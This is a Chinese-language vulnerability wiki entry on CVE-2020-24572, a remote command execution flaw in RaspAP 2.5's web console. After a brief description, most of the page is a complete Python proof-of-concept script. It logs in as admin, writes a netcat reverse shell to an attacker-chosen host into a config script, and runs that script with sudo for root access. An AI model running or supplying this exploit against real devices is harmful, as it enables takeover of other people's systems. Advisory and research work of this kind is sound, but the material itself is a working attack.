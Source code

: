 （CVE-2020-24572）RaspAP 2.5 远程命令执行漏洞
=============================================

一、漏洞简介
------------

在RaspAP
2.5的`include/webconsole.php`中发现了一个问题。借助经过身份验证的访问，攻击者可以使用配置错误（并且实际上不受限制）的Web控制台攻击运行该软件的底层OS（Raspberry
Pi），并在系统上执行命令（包括用于上传文件和执行代码的命令）。

二、漏洞影响
------------

RaspAP 2.5

三、复现过程
------------

### poc

> CVE-2020-24572.py

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-24572)RaspAP2.5远程命令执行漏洞/media/rId25.png)![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-24572)RaspAP2.5远程命令执行漏洞/media/rId26.png)

    #/usr/bin/python3

    #####################################################
    ##############       deadb0x.io        ##############
    #####################################################
    ###      Proof of Concept for CVE-2020-24572      ###
    ###     (Authenticated) Remote Code Execution     ###
    ###             via Webconsole.php in             ###
    ###                  RaspAP v2.5                  ###
    ###         github.com/billz/raspap-webgui        ###
    ###         github.com/nickola/web-console        ###
    #####################################################
    ### Written by: lunchb0x - Disc. Date: 08/24/2020 ###
    #####################################################
    ###       deadb0x.io/lunchb0x/CVE-2020-24572      ###
    ###         github.com/lb0x/CVE-2020-24572        ###
    #####################################################

    import os
    import sys
    import requests
    from termcolor import colored

    if len(sys.argv) != 6:
        print("---------------------------------------------------------------------------------------")
        print("USAGE: rasp_pwn.py [target_ip] [port] [attacker_ip] [attacker_port] [RaspAP_admin_pass]")
        print("---------------------------------------------------------------------------------------")
        exit(1)

    target = sys.argv[1]
    port = sys.argv[2]
    listener_ip = sys.argv[3]
    listener_port = sys.argv[4]
    raspap_user = "admin"
    raspap_pass = sys.argv[5]

    session = requests.Session()
    session.auth = (raspap_user, raspap_pass)


    json_req_1 = {
                  "jsonrpc":"2.0",
                  "method":"run",
                  "params":["NO_LOGIN",
                            {"user":"","hostname":"","path":""},
                            "echo 'touch \/tmp\/f;rm \/tmp\/f;mkfifo \/tmp\/f;cat \/tmp\/f|\/bin\/bash -i 2>&1|nc %s %d >\/tmp\/f' >> \/etc\/raspap\/lighttpd\/configport.sh"%(listener_ip, listener_port)
                            ],
                  "id":6
                  }

    json_req_2 = {
                  "jsonrpc":"2.0",
                  "method":"run",
                  "params":["NO_LOGIN",
                            {"user":"","hostname":"","path":""},
                            "sudo /etc/raspap/lighttpd/configport.sh"
                            ],
                  "id":6
                  }

    r = session.post("http://%s:%s/includes/webconsole.php"%(target,port), json=json_req_1)
    print(colored("[!]", 'green') + " Reverse shell injected")
    print(colored("[!]", 'yellow') + " Sending activation request - Make sure your listener is running . . .")
    os.system("stty -echo")
    input(colored("[>>>]", 'green')+" Press ENTER to continue . . .")
    os.system("stty echo")
    print(colored("\n[!]", 'green') + " You should be root :)")

    r = session.post("http://%s:%s/includes/webconsole.php"%(target,port), json=json_req_2)
    print(colored("[*]", 'green') + " Done.")


    print(colored("----------------", 'yellow'))
    print(colored("[] deadb0x.io", 'yellow'))
    print(colored("----------------", 'yellow'))

参考链接
--------

> https://deadb0x.io/lunchb0x/cve-2020-24572/
